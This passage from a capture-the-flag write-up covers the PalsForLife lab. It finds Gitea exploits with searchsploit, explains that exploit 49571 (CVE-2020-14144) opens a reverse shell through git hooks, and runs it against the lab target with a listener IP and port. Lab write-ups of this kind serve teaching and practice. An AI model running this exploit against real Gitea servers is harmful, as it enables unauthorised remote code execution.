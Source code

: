 Which is a flag!

# Initial Foothold

Since we have access to Gitea with administrator privilege, we can gain initial foothold.

To do so, I'll first searching public exploits:

**Searchsploit:**
```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# searchsploit gitea   
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Gitea 1.12.5 - Remote Code Execution (Authenticated)                              | multiple/webapps/49571.py
Gitea 1.4.0 - Remote Code Execution                                               | multiple/webapps/44996.py
Gitea 1.7.5 - Remote Code Execution                                               | multiple/webapps/49383.py
---------------------------------------------------------------------------------- ---------------------------------
```

The first one looks good for us. Let's mirror that exploit and **look carefully what it's doing**:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# searchsploit -m 49571
```

**49571.py:**

Overall, what this exploit does is:

- Login into an user
- Create a repository
- Delete a repository
- Setting up webhooks
- Trigger the reverse shell via making changes in a repository, and `git remote add origin` with a reverse shell

Let's run this exploit!

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# python3 49571.py -t http://$RHOSTS:31111 -u "leeroy" -p "{Redacted}" -I 10.18.61.134 -P 443
    _____ _ _______
   / ____(_)__   __|             CVE-2020-14144
  | |  __ _   | | ___  __ _
  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution
  | |__| | |  | |  __/ (_| |
   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5
     
[+] Starting exploit ...
hint: Using 'master' as the name for the initial branch. This default branch name
hint: is subject to change. To configure the initial branch name to use in all
hint: of your new repositories, which will suppress this warning, call:
hint: 
hint: 	git config --global init.defaultBranch <name>
hint: 
hint: Names commonly chosen instead of 'master' are 'main', 'trunk' and
hint: 'development'. The just-created branch can be renamed via this command:
hint: 
hint: 	git branch -m <name>
```